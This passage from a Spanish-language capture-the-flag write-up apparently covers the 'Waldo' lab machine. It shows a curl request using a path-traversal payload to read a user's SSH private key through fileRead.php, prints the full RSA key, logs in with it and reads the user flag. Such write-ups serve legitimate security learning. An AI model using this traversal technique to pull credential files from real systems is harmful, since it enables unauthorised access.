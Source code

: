 Y vemos una **clave privada**

```bash
❯ curl -s -X POST "http://10.129.156.20/fileRead.php" -d 'file=./.list/....//....//....//....//....//....//home/nobody/.ssh/.monitor' | jq '.["file"]' -r
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS
dVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO
v0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr
xsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY
qFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI
yzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1
/pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU
LRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/
lnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp
w7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9
1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT
rj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr
X/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2
DvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla
W0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=
-----END RSA PRIVATE KEY-----
```

Ahora nos conectamos después de darle privilegios `600` ala `id_rsa` `chmod 600 id_rsa`

```bash
❯ ssh -i id_rsa nobody@10.129.156.20
The authenticity of host '10.129.156.20 (10.129.156.20)' can't be established.
ECDSA key fingerprint is SHA256:S4nfJbcTY7WAdYp2v16xgnUj4MEIzqZ/jwbGI92FXEk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.156.20' (ECDSA) to the list of known hosts.
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ 
```

## User flag

```bash
waldo:~$ cat user.txt 
1ce00d9bf732ded5653fd76eb17d20bc
waldo:~$ 
```
